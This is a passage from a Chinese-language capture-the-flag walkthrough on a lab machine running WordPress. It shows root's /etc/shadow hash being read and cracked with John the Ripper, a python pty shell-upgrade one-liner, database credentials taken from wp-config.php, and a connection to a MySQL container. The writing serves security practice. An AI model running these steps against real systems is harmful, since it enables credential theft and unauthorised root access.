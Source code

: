 ```shell
/bin/umount
/bin/su

# 能拿到 root 的哈希
tail -n 100 /etc/shadow
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::

# 把这个存为 hash
john hash
john --show
# 得到密码：john
```

无法直接在 `nc` 里切到 root，拿到密码之后连接 `ssh` 试试，密码错误，必须模拟一下终端设备。

```shell
 python -c 'import pty;pty.spawn("/bin/sh")'
```

先看下 `flag` ，还是不行。

```shell
cat flag
Life consists of details..
```

那我们再找找，`/root` 目录下还有个东西。

```shell
cat .port
Listen to your friends..
7*
```

### 峰回路转

找了下 7 开头的端口，发现没这玩意。不过我们遗漏了 MySQL，去看看。

```shell
cat wp-config.php
/** MySQL database username */
define('DB_USER', 'wordpress');
/** MySQL database password */
define('DB_PASSWORD', 'wordpress');
/* MySQL hostname */
define('DB_HOST', 'db:3306');

# 直接进入失败了
mysql -u wordpress -p wordpress
ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/run/mysqld/mysqld.sock' (2 "No such file or directory")

# 先拿到 ip
ping db -c 3
64 bytes from experimental_db_1.experimental_default (172.18.0.2): icmp_seq=65 ttl=64 time=0.044 ms

# 远程连接试试
mysql -h 172.18.0.2 -u wordpress -p wordpress
MySQL [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.00 sec)
```